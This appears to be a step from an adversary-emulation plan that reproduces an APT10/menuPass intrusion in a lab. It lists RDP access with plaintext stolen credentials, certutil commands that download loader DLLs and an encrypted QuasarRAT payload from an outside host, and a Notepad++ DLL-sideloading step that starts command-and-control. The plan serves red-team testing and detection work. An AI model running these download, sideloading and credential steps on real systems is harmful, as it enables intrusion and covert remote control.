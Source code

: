 QuasarRAT, which has been modified and heavily obfuscated, checks first for
internet connectivity then connects to the C2 server using a redirector at
`notepad-plusplus-updates[.]com (121.93.4.32)`.

### ☣️ Procedures

* From the Windows jumpbox `homelander (116.83.1.29)`, using the provided
stolen system credentials, RDP to the IIS Server `gabumon (10.10.10.9)`.

  | Username | Password |
  | -------- | -------- |
  | DIGIRUNAWAY\kizumi | ydJEeqNzN4Xqkd9h@ |

* Open Command Prompt with administrative privileges

* Execute `certutil` to download SigLoader and FYAnti components.

  ```
  certutil.exe -urlcache -f http://ten-cent.us/files/VERSION.dll "C:\Program Files\Notepad++\VERSION.dll"
  certutil.exe -urlcache -f http://ten-cent.us/files/skt.dll %SYSTEMROOT%\System32\skt.dll
  certutil.exe -urlcache -f http://ten-cent.us/files/mshtml.wpf.wfx %SYSTEMROOT%\Microsoft.NET\mshtml.wpf.wfx
  certutil.exe -urlcache -f http://ten-cent.us/files/ngen.old2.log %SYSTEMROOT%\Microsoft.NET\Framework64\v4.0.30319\ngen.old2.log
  ```

  * Note:
    * `VERSION.dll` is a symbolic link to menu_pass/Resources/payloads/sigloader/IIS_layer1.dll
    * `skt.dll` is a symbolic link to menu_pass/Resources/payloads/sigloader/IIS_layer2.dll
    * `mshtml.wpf.wfx` is a symbolic link to menu_pass/Resources/payloads/sigloader/IIS_fyanti.dll
    * `ngen.old2.log` is a symbolic link to menu_pass/Resources/payloads/sigloader/Client.exe.enc

* Execute NotePad++.exe to perform DLL sideloading. SigLoader will load
FYAnti and FYAnti will load QuasarRAT.

  ```
  "C:\Program Files\Notepad++\notepad++.exe"
  ```

  * **NOTE:** the current working directory should be `C:\Windows\System32`. This is where the Quasar `clientmanagement.log` will be dropped.

* Confirm C2 registration of QuasarRAT

* **Minimize** Notepad++ and close out of all other windows, then disconnect from the RDP session (do not sign out)

### :mag: Reference Code & Reporting

1. <https://securelist.com/apt10-sophisticated-multi-layered-loader-ecipekac-discovered-in-a41apt-campaign/101519/>
1. <http://jsac.jpcert.or.jp/archive/2022/pdf/JSAC2022_9_yanagishita-tamada-nakatsuru-ishimaru_en.pdf>
1. <https://jsac.jpcert.or.jp/archive/2021/pdf/JSAC2021_202_niwa-yanagishita_en.pdf>
1. <https://media.kasperskydaily.com/wp-content/uploads/sites/86/2021/02/25140359/greatidea_A41_v1.0.pdf>
1. <https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/cicada-apt10-japan-espionage>
1. <https://www.trendmicro.com/ja_jp/research/21/l/Sigloader-by-Earth-Tengshe.html>
1. <https://www.lac.co.jp/lacwatch/report/20201201_002363.html>
